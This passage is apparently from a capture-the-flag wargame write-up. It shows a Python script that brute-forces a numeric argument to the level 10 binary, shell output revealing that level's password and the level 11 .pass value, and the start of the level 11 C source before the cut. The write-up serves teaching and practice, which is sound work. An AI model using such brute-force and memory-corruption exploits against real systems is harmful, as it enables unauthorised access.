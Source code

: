 If we can write a `0` after the first read into the last byte of `_IO_read_ptr` we should be able to get the program to write the password and not the error message.

```python
#!/usr/bin/env python
import subprocess
import sys

start = 1208000000
end = 1209000000
for i in range(start, end):
    try:
        output = subprocess.check_output(["/levels//level10", str(i)])
    except Exception:
        continue
    else:
        if "DENIED" not in output:
            print i
            sys.exit()
```

```
$ /levels/level10 1208263612
AveryLoNgPassword!!
$ /levels/level10 'AveryLoNgPassword!!'
```

```
$ cat /home/level11/.pass
fIpE1GkOkClE0j94
```

# 11. Level 11

```
$ cat /levels/level11.c
```

```cpp
#include <stdio.h>
#include <string.h>
#include <openssl/md5.h>

#define MAX_NESTING 100
int bf(char *prog, char *result, int maxlen)
{
    int output_len = 0;
    char tape[4001];
    int edi=0, eip=0;
    unsigned long endless_loop_protection = 100000;
    int loopstart[MAX_NESTING + 1], depth = 0, state;

    memset(tape, 0, sizeof(tape));
    while(eip < strlen(prog) && --endless_loop_protection)
    {
        switch(prog[eip])
        {
            case '<':
                if(edi) --edi;
                break;
            case '>':
                if(edi<4000) ++edi;
                break;
            case '+':
                ++tape[edi];
                break;
```